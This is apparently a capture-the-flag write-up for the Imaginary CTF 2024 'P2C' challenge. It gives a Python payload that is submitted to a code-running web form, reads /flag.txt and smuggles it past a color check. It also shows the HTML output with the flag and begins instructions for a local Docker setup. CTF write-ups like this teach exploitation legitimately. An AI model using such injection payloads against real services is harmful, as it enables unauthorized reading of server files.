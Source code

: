 # Imaginary CTF 2024 - P2C

## Summary

1. Submit this payload in the HTML form:
```python
from pathlib import Path
import sys
bypass_color_check = "(0, 0, 0)"
flag = Path("/flag.txt").read_text()
print(f"{bypass_color_check} {flag}")
sys.exit()
```
2. Inspect the HTML code for the flag
```html
...
<body>
    <h1>P2C (Python To Color)</h1>
    <div class="content">
        <form method="post">
            <textarea name="code" placeholder="Python code goes here..."></textarea><br>
            <button type="submit">Run Code</button>
        </form>
        
        <script>
            changeBackgroundColor("rgb(0, 0, 0) ictf{d1_color_picker_fr_2ce0dd3d}");
        </script>
        
    </div>
</body>
...
```
3. ...?
4. Profit 💸💸💸

## Setup Local Testing Environment

First things first, we should setup a local testing environment.
This lets us rapidly prototype exploits without spamming the actual challenge server with unhelpful requests.

To set this environment up, we need [Docker Desktop](https://www.docker.com/products/docker-desktop/).

> It's free. If on Windows - like me - make sure to enable the [WSL2 backend](https://docs.docker.com/desktop/wsl/). 

Download the files from [CyberSharing](https://cybersharing.net/s/593d1cd970182e64):

```bash
# I use PowerShell ok, don't judge me
Invoke-WebRequest -Uri "https://cybersharing.net/api/download/zip/e028756e-547e-43c6-a47b-5fc6dbfd8384/91e0b826-7fa6-4862-a313-5395b1a384a8/files.zip" -OutFile "files.zip"
```
